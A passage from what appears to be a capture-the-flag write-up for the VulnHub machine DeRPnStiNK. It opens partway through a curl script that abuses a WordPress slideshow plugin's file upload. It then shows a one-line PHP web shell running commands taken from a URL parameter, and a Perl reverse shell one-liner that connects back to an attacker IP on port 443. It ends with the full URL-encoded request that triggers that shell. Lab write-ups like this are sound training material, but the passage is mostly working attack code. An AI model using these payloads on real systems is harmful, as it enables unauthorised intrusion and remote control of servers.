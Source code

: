     -s \
    -b cookie \
    -H "Expect:" \
    -o /dev/null \
    -F "Slide[id]=" \
    -F "Slide[order]=" \
    -F "Slide[title]=$(mktemp -u | sed -r 's/^.*tmp\.(.*)$/\1/')" \
    -F "Slide[description]=" \
    -F "Slide[showinfo]=both" \
    -F "Slide[iopacity]=70" \
    -F "Slide[galleries][]=1" \
    -F "Slide[type]=file" \
    -F "image_file=@$FILE;filename=$FILE;type=application/octet-stream" \
    -F "Slide[image_url]=" \
    -F "Slide[uselink]=N" \
    -F "Slide[link]=" \
    -F "Slide[linktarget]=self" \
    -F "submit=Save Slide" \
    http://$HOST/$BLOG/$VULN

# cleanup
rm -rf cookie
{% endhighlight %}

I uploaded a simple PHP file that executes remote command with the script.

```
# cat cmd.php
<pre><?php echo shell_exec($_GET['cmd']);?></pre>

# ./upload.sh cmd.php
```

### Low Privilege Shell

Now that I've uploaded the file, the next step is to trigger a reverse shell. Whenever possible, I like to use Perl for my reverse shell.

```perl
perl -e 'use Socket;$i="192.168.10.129";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Since we are passing the above command to `cmd.php`, it's best to `urlencode` it to avoid complications. The entire URL looked like this.

```
http://derpnstink.local/weblog/wp-content/uploads/slideshow-gallery/cmd.php?cmd=perl%20-e%20%27use%20Socket%3B%24i%3D%22192.168.10.129%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fsh%20-i%22%29%3B%7D%3B%27
```


[1]: https://www.vulnhub.com/entry/derpnstink-1,221/
[2]: https://twitter.com/@securekomodo
[3]: https://www.vulnhub.com